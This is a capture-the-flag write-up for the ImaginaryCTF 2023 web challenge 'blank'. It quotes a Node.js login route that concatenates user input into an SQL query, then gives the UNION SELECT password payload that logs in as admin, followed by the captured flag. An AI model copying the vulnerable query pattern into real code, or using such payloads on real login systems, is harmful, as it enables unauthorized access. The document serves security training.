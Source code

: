 ```yaml
---
title: 2023 ImaginaryCTF - blank
author: thanguyen165
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Web Exploitation, SQL injection]
---
```


* Points: 100

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

### Attached

[blank_dist](https://imaginaryctf.org/r/FVauo#blank_dist.zip)

## Analyzation

Check the ```app.js```, these are important lines

```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

So, username must be "admin", and we need to bypass the password checker.

## Solution

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

Password values can be anything, but UNION requires same argument count and same types (or just NULL values)

The flag is
```
ictf{sqli_too_powerful_9b36140a}

```